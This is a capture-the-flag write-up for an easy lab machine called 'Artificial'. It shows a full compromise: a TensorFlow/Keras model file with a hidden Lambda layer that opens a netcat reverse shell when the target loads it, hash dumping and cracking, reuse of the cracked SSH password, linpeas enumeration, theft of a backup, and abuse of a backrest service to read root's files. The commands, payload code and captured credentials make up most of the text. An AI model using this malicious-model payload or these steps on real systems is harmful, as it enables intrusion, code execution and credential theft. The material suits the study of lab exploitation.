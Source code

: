 # Attack IP 
10.10.11.74

# Difficulty
Community rating - Easy

# Category
Web-based, AI model tensor upload auth-bypass vulnerbility.

# Method of Solve
Nmap scan

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Artificial - AI Solutions
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
So then we head to the website. We see a login/register page, there is little information on so we look, for exploits for tensor where we find [this](https://blog.huntr.com/exposing-keras-lambda-exploits-in-tensorflow-models)

using this and docker we create an AI-model, using the following syntax

```
import tensorflow as tf
import os

def exploit(x):
    import os
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc <TARGET_IP> 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```
```
sudo docker build -t myapp .
sudo docker run --rm -it -v $(pwd):/cwd myapp
```
then we move the exploit to the docker to create the model using
```
sudo docker cp /path/to/tensorflow_h5.py DOCKER_CONTAINER_ID:/code/tensorflow_h5.py
```
run in the docker to create the model to be exploited. 
```
sudo docker exec -it crazy_moser python /code/tensorflow_h5.py
```
Then we bring it back to our system to store so we can upload to the target website
```
sudo docker cp DOCKER_CONTAINER_ID:/code/exploit.h5 /path/to/store/
```
from there we run 
```
nc -lvnp 4444
```
from there we upload the model, click View Predictions, and head back to our terminal, we then have reverse shell.
then we find the following is available
```
-rw-rw-r-- 1 app app 7846 Jun  9 13:54 app.py                                                                                                              
drwxr-xr-x 2 app app 4096 Aug 12 01:23 instance                                                                                                            
drwxrwxr-x 2 app app 4096 Aug 12 01:23 models                                                                                                              
drwxr-xr-x 2 app app 4096 Jun  9 13:55 __pycache__                                                                                                         
drwxrwxr-x 4 app app 4096 Jun  9 13:57 static                                                                                                              
drwxrwxr-x 2 app app 4096 Jun 18 13:21 templates
```
heading into instance we find users.db
viewing these usernames we can see there is some hashed information attached to the usernames
```
marymary@artificial.htb bf041041e57f1aff3be7ea1abd6129d0
royerroyer@artificial.htb c25b1f80f544c0ab451c02a3dca9fc6
robertrobert@artificial.htb b606c5f5136170f15444251665638b36
markmark@artificial.htb 0f3d8c76530022670f1c6029eed09ccb
gaelgael@artificial.htb c99175974b6e192936d97224638a34f8
```
from there we put them into a hash cracker e.g. https://crackstation.net/
we find that only gael has a password usable being 'mattp005numbertwo'
from there we SSH into the server using the following 
```
ssh gael@10.10.11.74
password: mattp005numbertwo
```
from there we find user.txt and we get our first flag.
```
a34f3a19ef535d740a223d91ff081102
```
then we try for excelation of privlege, we run a http server in the file where linpeas is located.
then from the gaels server we download it using
```
wget http://HOST_IP:8000/linpeas.sh
```
 then 
 ```
 chmod +x linpeas.sh
```
then run it to see ways to increase priv

we notice that there is a few things first one is the active ports
``` 
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -                                                                          
tcp        0      0 127.0.0.1:9898          0.0.0.0:*               LISTEN      -                                                                          
tcp6       0      0 :::80                   :::*                    LISTEN      -                                                                          
tcp6       0      0 :::22                   :::*                    LISTEN      -
```
We will come back to this soon
and the second one is 
```
-rw-r----- 1 root sysadm 52357120 Mar  4 22:19 /var/backups/backrest_backup.tar.gz
```
this is interesting. we bring it back to our computer using the scp method
```
scp geal@10.10.11.74:/var/backups/backrest_backup.tar.gz /path/to/save
```
then we unzip it and have a look, we see a .config file this is good. look in and find 
```
 "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
```
we put this into a base64 decryption and then using john we get the following 
```
john filename.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```
```
!@#$%^
```
then we use port forwarding on our host machine through ssh to get onto to backup server
```
ssh -L 9898:127.0.0.1:9898 @gael@artificial.htb
```
then we go to our local browers and we go to localhost:9898
then it takes some reading so head [here](https://garethgeorge.github.io/backrest/introduction/getting-started/)
so long and short of it; we log in using backrest_root:!@#$%^
then when we are in the backrest interface we ad a new repo with /tmp repository URI
generate a random password
then go to add plan, do same again but for the path we want it to be root/root.txt
then we click on Backup Now
then click on back up pop-down, scroll down to snapshot browser, '/' 'root' 'root.txt' then click on root.txt and then restore the path.
then do the same again when it does it thing, then boom root flag
2cc9b58679485f25ec0f4d0d877ef141
